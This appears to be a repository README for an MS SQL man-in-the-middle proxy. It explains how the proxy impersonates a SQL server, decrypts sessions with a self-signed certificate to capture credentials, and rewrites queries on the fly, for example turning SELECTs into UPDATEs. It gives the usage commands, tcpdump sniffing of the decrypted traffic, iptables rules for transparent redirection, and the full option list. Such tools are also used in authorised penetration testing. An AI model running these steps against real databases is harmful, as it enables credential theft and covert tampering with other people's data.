 # MITM SQL proxy

Tool for MS SQL Man In The Middle attack. 

## How it works:
It listens for connection pretending to be a real MS SQL server, decrypts traffic to obtain credentials or manipulate the queries and connect back to real SQL server and forward traffic.

In the future also server emulation option is planned - no SQL server will be needed to obtain credentials from the client.

## Easy sniffing
To allow easy sniffing decrypted traffic by default is passing by loop on 127.0.0.1:1434
```
tcpdump -i lo port 1434 -X
```
## Easy queries manipulation
Traffic can be also easy redirected to some other middle application to manipulate queries. It needs to listen on some port, manipulate the data and send it back to some other port. All processed data is already decrypted.

As example *manipulation_example.py3* show how to change all SELECT queries to UPDATE on-the-fly:
```
./mitmsqlproxy.py 192.168.123.2 -d -lcp 1444 &

./manipulation_example.py
```

## No certificate needed
Self-signed certificate is generated on the fly. For default configuration of SQL libraries, it will work (only login packet is encrypted).
If on client side full encryption is forced ("Encrypt connection" is selected or "Encrypt=true;" is present in the connection string) **it will work only when "Trust server certificate" is selected or 'TrustServerCertificate=true' is in connection string**.

If needed custom user cert can be loaded from a file.

## Transparent traffic redirection 
If traffic goes through the machine interface it can be redirected to listening port with iptables like this:
```
sysctl net.ipv4.ip_forward=1 
iptables -t nat -A PREROUTING -p tcp --dport 1433 -j DNAT --to-destination 127.0.0.1:1433
```

## Command line options
```
usage: mitmsqlproxy.py [-h] [-port PORT] [-lport LPORT] [-q | -d | -dd] [-ll ip_address] [-llp port]
                       [-lc ip_address] [-lcp port] [--disable-loop] [--cert my.crt] [--key my.key]
                       target

MSSQL MITM proxy (SSL supported).

positional arguments:
  target          MSSQL server name or address

options:
  -h, --help      show this help message and exit
  -port PORT      MSSQL server port (default 1433)
  -lport LPORT    local listening port (default 1433)
  -q              quiet mode
  -d              show more info
  -dd             show debug info

Internal connection loop - decrypted data is sent to certain port (default 127.0.0.1:1434) and coming back to mitmslqproxy to be encrypted and send further. This option allows to sniff or even modify unencrypted SQL traffic in the fly with third party application:
  -ll ip_address  loop listening address (default 127.0.0.1)
  -llp port       loop listening address port (default 1434)
  -lc ip_address  loop connecting address (default 127.0.0.1)
  -lcp port       loop connecting address port (default 1434)
  --disable-loop  disable internal loop - if both sides will negotiate encryption sniffing will be
                  useless, only credentials will be shown on console (raw data only in debug mode)

TLS custom private key and certificate (by default it is dynamically generated):
  --cert my.crt   certificate file
  --key my.key    private key file
```
